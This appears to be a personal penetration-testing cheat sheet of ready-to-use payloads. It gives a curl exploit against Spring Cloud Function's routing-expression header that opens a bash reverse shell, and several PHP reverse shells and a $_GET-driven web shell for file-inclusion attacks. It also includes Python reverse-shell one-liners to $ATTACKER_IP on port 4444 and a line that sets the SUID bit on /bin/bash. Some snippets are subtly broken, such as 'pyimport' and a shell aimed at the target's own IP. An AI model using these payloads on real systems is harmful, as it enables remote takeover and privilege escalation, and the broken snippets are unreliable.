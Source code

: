 JAVA Spring Boot cloud exploit and rev-shell:
---
```shell
curl -X POST [http://$TARGET_IP:8080/functionRouter](http://$TARGET_IP:8080/functionRouter) -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/$TARGET_IP/4444 0>&1")' --data-raw 'data' -v
```

Windows PHP rev shell
---
[https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php](https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php)

PHP Reverse shell LFI:
---
#php #rev-shell #reverse #rev 

or use system() exec() passthru() **shell_exec**()

```php
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/$ATTACKER_IP/4444 0>&1'");?>
```


```php
<?php $sock=fsockopen("$ATTACKER_IP",4444);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);?>
```

```php
<?php exec($_GET['cmd']);?>
```

Python Rev shell
---
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"
```

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Python Priv Esc
---
```python
pyimport os;os.system("chmod +s /bin/bash");f=function f2(){};
```
